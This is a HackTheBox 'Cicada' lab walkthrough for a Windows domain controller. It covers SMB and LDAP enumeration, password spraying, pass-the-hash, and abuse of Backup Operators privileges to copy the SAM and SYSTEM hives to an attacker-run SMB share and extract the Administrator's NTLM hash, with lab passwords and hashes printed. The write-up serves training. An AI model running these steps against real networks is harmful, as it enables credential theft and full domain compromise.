


<p align="center">
  
</p>

---

- 🎯 **Target:** HackTheBox - Cicada Windows
- 🧑‍💻 **Author:** `sonyahack1`
- 📅 **Date:** 01.03.2025
- 📊 **Difficulty:** Easy
- 📁 **Category:** Privilege Escalation (`SeBackupPrivilege / SeRestorePrivilege`)
- 💻 **Platform:** Windows

---

## Table of Contents

- [Summary](#summary)
- [Reconnaissance](#%EF%B8%8F--reconnaissance)
- [Entry Point](#-entry-point)
- [Initial Access](#-initial-access)
- [Vertical Privilege Escalation](#%EF%B8%8F-vertical-privilege-escalation)
- [Capabilities exploitation](#-capabilities-exploitation)
- [Conclusion](#-conclusion)

---

## Summary

| Stage         | Info                               	    	|
|---------------|-----------------------------------------------|
|   User Flag   | `flag{4882f52e3f868e436d2a43f0a2fcbdc7}`  	|
|   Root Flag   | `flag{8fd7a8ffe43ffd35cc2dd9134cb7b484}`  	|
|		|						|
|  	        | `'michael.wrightson:Cicada$M6Corpb*@Lp#nZp!8` |
|  Credentiasl	|  `david.orelious:aRt$Lp#7t*VQ!3`		|
|		|  `emily.oscars:Q!3@Lp#M6b*7t*Vt`		|

---

> add the machine's IP address to /etc/hosts:

```bash

echo '10.10.11.35 cicada.htb' | sudo tee -a /etc/hosts && ping cicada.htb

```

---
## 🕵️  Reconnaissance

> Scanning the target for open ports and services via `nmap`:

```bash

sudo nmap -sVC -p- -vv -T5 cicada.htb -oN cicada_tcp_scan

```
> Result:

```bash

Discovered open port 445/tcp on 10.10.11.35
Discovered open port 135/tcp on 10.10.11.35
Discovered open port 139/tcp on 10.10.11.35
Discovered open port 53/tcp on 10.10.11.35
Discovered open port 389/tcp on 10.10.11.35
Discovered open port 5985/tcp on 10.10.11.35
Discovered open port 464/tcp on 10.10.11.35
Discovered open port 3269/tcp on 10.10.11.35
Discovered open port 88/tcp on 10.10.11.35
Discovered open port 3268/tcp on 10.10.11.35

```
```bash

53/tcp    open  domain        syn-ack ttl 127 Simple DNS Plus
88/tcp    open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2025-07-24 00:13:56Z)
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn

389/tcp   open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:CICADA-DC.cicada.htb
| Issuer: commonName=CICADA-DC-CA/domainComponent=cicada
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-08-22T20:24:16
| Not valid after:  2025-08-22T20:24:16
| MD5:   9ec5:1a23:40ef:b5b8:3d2c:39d8:447d:db65
| SHA-1: 2c93:6d7b:cfd8:11b9:9f71:1a5a:155d:88d3:4a52:157a

445/tcp   open  microsoft-ds? syn-ack ttl 127
464/tcp   open  kpasswd5?     syn-ack ttl 127
593/tcp   open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
3268/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
3269/tcp  open  ssl/ldap      syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
5985/tcp  open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
49898/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC

Service Info: Host: CICADA-DC; OS: Windows; CPE: cpe:/o:microsoft:windows

```

> From the scan results we can see that it is a `Windows Server` with a running `DNS` service on `53` port, which tells us that it is a `domain controller`.
> I also see useful open ports - `SMB 445`; `rpc 135`; `ldap 389` which shows that the domain name of the domain controller is `CICADA-DC.cicada.htb`;
> `5985 winrm` etc.

> I add the domain name of the domain controller to `/etc/hosts`:

```bash

10.10.11.35 cicada.htb CICADA-DC.cicada.htb

```

> There is no web application here. Therefore, we will check the running services.
> I will check the `SMB` service for anonymous authentication via `nxc`:

```bash

nxc smb cicada.htb -u '' -p ''

SMB         10.10.11.35     445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\:

```
> I will list the shares in the system:

```bash

nxc smb cicada.htb -u '' -p '' --shares

SMB         10.10.11.35     445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\:
SMB         10.10.11.35     445    CICADA-DC        [-] Error enumerating shares: STATUS_ACCESS_DENIED

```
> Result

```bash

[-] Error enumerating shares: STATUS_ACCESS_DENIED

```

> I try under user `guest` without password:

```bash

nxc smb cicada.htb -u 'guest' -p '' --shares

SMB         10.10.11.35     445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\guest:
SMB         10.10.11.35     445    CICADA-DC        [*] Enumerated shares
SMB         10.10.11.35     445    CICADA-DC        Share           Permissions     Remark
SMB         10.10.11.35     445    CICADA-DC        -----           -----------     ------
SMB         10.10.11.35     445    CICADA-DC        ADMIN$                          Remote Admin
SMB         10.10.11.35     445    CICADA-DC        C$                              Default share
SMB         10.10.11.35     445    CICADA-DC        DEV
SMB         10.10.11.35     445    CICADA-DC        HR              READ
SMB         10.10.11.35     445    CICADA-DC        IPC$            READ            Remote IPC
SMB         10.10.11.35     445    CICADA-DC        NETLOGON                        Logon server share
SMB         10.10.11.35     445    CICADA-DC        SYSVOL                          Logon server share

```

> I see two interesting shares - `DEV` and `HR`. We only have read permissions for `HR`.
> Ok. Connecting to `HR`:

```bash

smbclient //cicada.htb/HR -U 'guest'

Password for [WORKGROUP\guest]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Thu Mar 14 08:29:09 2024
  ..                                  D        0  Thu Mar 14 08:21:29 2024
  Notice from HR.txt                  A     1266  Wed Aug 28 13:31:48 2024

                4168447 blocks of size 4096. 482439 blocks available
smb: \>

```
> In the `HR` share there is a text file `Notice from HR.txt`. We take it and display the contents:

```bash

smb: \> get "Notice from HR.txt"
getting file \Notice from HR.txt of size 1266 as Notice from HR.txt (7.3 KiloBytes/sec) (average 7.3 KiloBytes/sec)
smb: \> exit

```
> Result:

<p align="center">
  
</p>


> Ok. There is a **password** for a new account in the system. **But for which one?**

---

## 🚪 Entry Point

> Let's list users in the system via `nxc` with the `--rid-brute` flag and save them in `users.txt` for further analysis.

```bash

nxc smb cicada.htb -u 'guest' -p '' --rid-brute | grep SidTypeUser | cut -d '\' -f2 | cut -d ' ' -f1 > users.txt

```
> Result:

```
cat users.txt

Administrator
Guest
krbtgt
CICADA-DC$
john.smoulder
sarah.dantelia
michael.wrightson
david.orelious
emily.oscars

```
> We use the found password and the list of all users in the system and launch brute force authorization via `smb`:

```bash

nxc smb cicada.htb -u users.txt -p 'Cicada$M6Corpb*@Lp#nZp!8' --continue-on-succes

```
> Result:

```bash

SMB         10.10.11.35     445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.35     445    CICADA-DC        [-] cicada.htb\Administrator:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE
SMB         10.10.11.35     445    CICADA-DC        [-] cicada.htb\Guest:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE
SMB         10.10.11.35     445    CICADA-DC        [-] cicada.htb\krbtgt:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE
SMB         10.10.11.35     445    CICADA-DC        [-] cicada.htb\CICADA-DC$:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE
SMB         10.10.11.35     445    CICADA-DC        [-] cicada.htb\john.smoulder:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE
SMB         10.10.11.35     445    CICADA-DC        [-] cicada.htb\sarah.dantelia:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\michael.wrightson:Cicada$M6Corpb*@Lp#nZp!8
SMB         10.10.11.35     445    CICADA-DC        [-] cicada.htb\david.orelious:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE
SMB         10.10.11.35     445    CICADA-DC        [-] cicada.htb\emily.oscars:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE

```

> `cicada.htb\michael.wrightson:Cicada$M6Corpb*@Lp#nZp!8` - We have the **first** valid account.

> I use it and list the available shares again. Probably the rights to `DEV` appeared:

```bash

nxc smb cicada.htb -u 'cicada.htb\michael.wrightson' -p 'Cicada$M6Corpb*@Lp#nZp!8' --shares

```
> Result:

```bash

SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\michael.wrightson:Cicada$M6Corpb*@Lp#nZp!8
SMB         10.10.11.35     445    CICADA-DC        [*] Enumerated shares
SMB         10.10.11.35     445    CICADA-DC        Share           Permissions     Remark
SMB         10.10.11.35     445    CICADA-DC        -----           -----------     ------
SMB         10.10.11.35     445    CICADA-DC        ADMIN$                          Remote Admin
SMB         10.10.11.35     445    CICADA-DC        C$                              Default share
SMB         10.10.11.35     445    CICADA-DC        DEV
SMB         10.10.11.35     445    CICADA-DC        HR              READ
SMB         10.10.11.35     445    CICADA-DC        IPC$            READ            Remote IPC
SMB         10.10.11.35     445    CICADA-DC        NETLOGON        READ            Logon server share
SMB         10.10.11.35     445    CICADA-DC        SYSVOL          READ            Logon server share

```

> The rights to the `DEV` share did not appear. There is nothing interesting in the standard `NETLOGON` and `SYSVOL` shares. No non-standard files or scripts. Nothing to do there.

> You need to understand what to do next if there is currently no vector for `SMB`.

> Having an account in the system, it makes sense to collect all available information through `SharpHound` and display it in `BloodHound` as a graph of dependencies of all objects:

```bash

sudo python3 bloodhound.py -u 'michael.wrightson' -p 'Cicada$M6Corpb*@Lp#nZp!8' -d cicada.htb --nameserver 10.10.11.35 -c ALL --zip -op cicada.htb

INFO: BloodHound.py for BloodHound LEGACY (BloodHound 4.2 and 4.3)
INFO: Found AD domain: cicada.htb
INFO: Getting TGT for user
INFO: Connecting to LDAP server: cicada-dc.cicada.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: cicada-dc.cicada.htb
INFO: Found 9 users
INFO: Found 54 groups
INFO: Found 3 gpos
INFO: Found 2 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: CICADA-DC.cicada.htb
INFO: Done in 00M 09S
INFO: Compressing output into 20250729211242_bloodhound.zip

```
> Upload archive in the `BloodHound`:

<p align="center">
  
</p>

> The graph shows that the user has no privileges over other objects in the system and is not part of any useful group.

> Let's look at another user, for example - `emily.oscars`:

<p align="center">
 
</p>

> This is where things get interesting. First, I see a group for remote connection called `Remote Management Users`. Second, I see a potential vector for escalating privileges
> in the system since the user is a member of the `Backup Operators` group. **Worth remembering, this is important information**.

> But I still don't have access to the system.

> Scanning `nmap` showed open `ldap` ports (`389 and 636`). Using the existing account, I will display a description for each of the objects in the `Active Directory` system via `ldap`:

```bash

ldapsearch -x -H ldap://cicada.htb -D 'michael.wrightson@cicada.htb' -w 'Cicada$M6Corpb*@Lp#nZp!8' -b "DC=cicada,DC=htb" '(description=*)' description | grep -i description

```
> Result:

<p align="center">
 
</p>

> There is an interesting description for one of the objects  - `Just in case I forget my password is aRt$Lp#7t*VQ!3`. Ok, there is a password. Again, it is not known from whom.

> We run brute force using the same `users.txt` file to determine the appropriate user:

```bash

nxc smb cicada.htb -u users.txt -p 'aRt$Lp#7t*VQ!3' --continue-on-succes

```
> Result:

```bash

SMB         10.10.11.35     445    CICADA-DC        [-] cicada.htb\Administrator:aRt$Lp#7t*VQ!3 STATUS_LOGON_FAILURE
SMB         10.10.11.35     445    CICADA-DC        [-] cicada.htb\Guest:aRt$Lp#7t*VQ!3 STATUS_LOGON_FAILURE
SMB         10.10.11.35     445    CICADA-DC        [-] cicada.htb\krbtgt:aRt$Lp#7t*VQ!3 STATUS_LOGON_FAILURE
SMB         10.10.11.35     445    CICADA-DC        [-] cicada.htb\CICADA-DC$:aRt$Lp#7t*VQ!3 STATUS_LOGON_FAILURE
SMB         10.10.11.35     445    CICADA-DC        [-] cicada.htb\john.smoulder:aRt$Lp#7t*VQ!3 STATUS_LOGON_FAILURE
SMB         10.10.11.35     445    CICADA-DC        [-] cicada.htb\sarah.dantelia:aRt$Lp#7t*VQ!3 STATUS_LOGON_FAILURE
SMB         10.10.11.35     445    CICADA-DC        [-] cicada.htb\michael.wrightson:aRt$Lp#7t*VQ!3 STATUS_LOGON_FAILURE
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\david.orelious:aRt$Lp#7t*VQ!3
SMB         10.10.11.35     445    CICADA-DC        [-] cicada.htb\emily.oscars:aRt$Lp#7t*VQ!3 STATUS_LOGON_FAILURE

```
> `cicada.htb\david.orelious:aRt$Lp#7t*VQ!3` - we have **the second** valid account.

> Again we check the list of `all shares` and their rights:

```bash

nxc smb cicada.htb -u 'cicada.htb\david.orelious' -p 'aRt$Lp#7t*VQ!3' --shares

```
> Result:

```

SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\david.orelious:aRt$Lp#7t*VQ!3
SMB         10.10.11.35     445    CICADA-DC        [*] Enumerated shares
SMB         10.10.11.35     445    CICADA-DC        Share           Permissions     Remark
SMB         10.10.11.35     445    CICADA-DC        -----           -----------     ------
SMB         10.10.11.35     445    CICADA-DC        ADMIN$                          Remote Admin
SMB         10.10.11.35     445    CICADA-DC        C$                              Default share
SMB         10.10.11.35     445    CICADA-DC        DEV             READ
SMB         10.10.11.35     445    CICADA-DC        HR              READ
SMB         10.10.11.35     445    CICADA-DC        IPC$            READ            Remote IPC
SMB         10.10.11.35     445    CICADA-DC        NETLOGON        READ            Logon server share
SMB         10.10.11.35     445    CICADA-DC        SYSVOL          READ            Logon server share

```

> Great. We have `READ` permissions for share `DEV`.

> Connecting to `DEV`:

```bash

smbclient //cicada.htb/DEV -U 'cicada.htb\david.orelious'
Password for [CICADA.HTB\david.orelious]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Thu Mar 14 08:31:39 2024
  ..                                  D        0  Thu Mar 14 08:21:29 2024
  Backup_script.ps1                   A      601  Wed Aug 28 13:28:22 2024

                4168447 blocks of size 4096. 478267 blocks available
smb: \>

```

> I see the script `ps1`. I take it and look at the contents:

```bash

cat Backup_script.ps1

$sourceDirectory = "C:\smb"
$destinationDirectory = "D:\Backup"

$username = "emily.oscars"
$password = ConvertTo-SecureString "Q!3@Lp#M6b*7t*Vt" -AsPlainText -Force
$credentials = New-Object System.Management.Automation.PSCredential($username, $password)
$dateStamp = Get-Date -Format "yyyyMMdd_HHmmss"
$backupFileName = "smb_backup_$dateStamp.zip"
$backupFilePath = Join-Path -Path $destinationDirectory -ChildPath $backupFileName
Compress-Archive -Path $sourceDirectory -DestinationPath $backupFilePath
Write-Host "Backup completed successfully. Backup file saved to: $backupFilePath"

```

> `cicada.htb\emily.oscars:Q!3@Lp#M6b*7t*Vt` - we have **the third** valid account.

---
## 🔓 Initial Access

> `BloodHound` showed that the user is a member of the `Remote Management Users` group, which means I can connect via `winrm`:

```bash

evil-winrm -i cicada.htb -u 'cicada.htb\emily.oscars' -p 'Q!3@Lp#M6b*7t*Vt'

```
> Result:

```bash

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Documents> whoami
cicada\emily.oscars
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Documents>

```
> I get first flag in `C:\Users\emily.oscars.CICADA\Desktop`:

```bash

*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Desktop> type user.txt
4882f52e3f868e436d2a43f0a2fcbdc7
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Desktop>

```
> user flag - `4882f52e3f868e436d2a43f0a2fcbdc7`

---
## 🧍⬆️🧑‍💼 Vertical Privilege Escalation

> Previously `BloodHound` showed that the user is a member of the `Backup Operators` group, which is a direct vector for escalating privileges.
> To confirm, I'll list the `emily.oscars` groups:

<p align="center">
 
</p>

---

**Note:** `Backup Operators` is a built-in group in Windows that has fairly high privileges (almost like an administrator) since it provides the rights
to perform backups and restores of data.

---

> If the user is a member of the `Backup Operators` group he gets high privileges - `SeBackupPrivilege` and `SeRestorePrivilege`, which means that
> he can bypass most **file access restrictions** and, for example, make backup of system files such as `SAM` and `SYSTEM` from the system registry.

<p align="center">
 
</p>

> `SAM` is a file that stores a database of local Windows accounts and their `password hashes`
> `SYSTEM` is also needed because it stores system parameters and **encryption keys** needed to decrypt what is in `SAM`.

---

> Ok. To begin with, I'll launch a local `SMB` server via `impacket` and for authorization to the network share I'll specify simple credentials:

```bash

impacket-smbserver -smb2support -username 'user' -password 'password' public share

```
> Result:

```bash

Impacket v0.13.0.dev0+20250611.105641.0612d078 - Copyright Fortra, LLC and its affiliated companies

[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0

```
> This is necessary to be able to make backups of system files and save them on my share.

> We make a dump of the system files `SAM` and `SYSTEM` from the registry and save them in `public` (`public` -> `share`)

```bash

*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Desktop> net use \\10.10.14.10\public /user:user password
The command completed successfully.

*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Desktop> reg save HKLM\SAM \\10.10.14.10\public\sam.sav
The operation completed successfully.

*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Desktop> reg save HKLM\SYSTEM \\10.10.14.10\public\system.sav
The operation completed successfully.

*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Desktop>

```
> Result:

```bash

sonyahack1 kali ~/share
❯ ls -lah
total 18M

drwxrwxr-x  2 sonyahack1 sonyahack1 4.0K Jul 29 22:42 .
drwx------ 33 sonyahack1 sonyahack1 4.0K Jul 29 22:42 ..
-rwxrwxr-x  1 sonyahack1 sonyahack1  48K Jul 29 22:40 sam.sav
-rwxrwxr-x  1 sonyahack1 sonyahack1  18M Jul 29 22:40 system.sav

```
> Using the `secretsdump` script from the `impacket` suite, I extract `NTLM hashes` from the dumps:

```bash

impacket-secretsdump -sam sam.sav -system system.sav LOCAL

```
> Result:

```bash

Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b87e7c93a3e8a0ea4a581937016f341:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::

```
> I get `NTLM hash` from `Administrator`.

> Connecting to `winrm`:

```bash

evil-winrm -i cicada.htb -u 'cicada.htb\Administrator' -H 2b87e7c93a3e8a0ea4a581937016f341

```
> Result:

```bash

*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
cicada\administrator
*Evil-WinRM* PS C:\Users\Administrator\Documents>

```
> I get last flag in `C:\Users\Administrator\Desktop`:

```bash

*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
8fd7a8ffe43ffd35cc2dd9134cb7b484
*Evil-WinRM* PS C:\Users\Administrator\Desktop>

```
> root flag - `8fd7a8ffe43ffd35cc2dd9134cb7b484`

---

> Machine is pwned!

---
## 🧠 Conclusion

> During the walkthrough of this machine via the `SMB (455)` protocol, the `HR` network share was found with access under the user `guest` **without password**, in which the password
> for the user account `michael.wrightson` was in clear text form. During further collection of information on objects via `ldap`, the password for the account `david.orelious` was
> found in the description of the object `users`, which gave access to the `DEV` network share for reading the contents, in which the file `ps1` was found with the password of the
> user `emily.oscars`, which gave the initial access to the system. Further collection of information about the user in the system led to the discovery of membership in the `Backup Operators`
> group (and its corresponding privileges), which made it possible to make backup copies of system files. After dumping the `SYSTEM` and `SAM` files, an `NTLM hash` was obtained from the
> `Administrator` user, which led to a complete compromise of the system.

<p align="center">
 
</p>

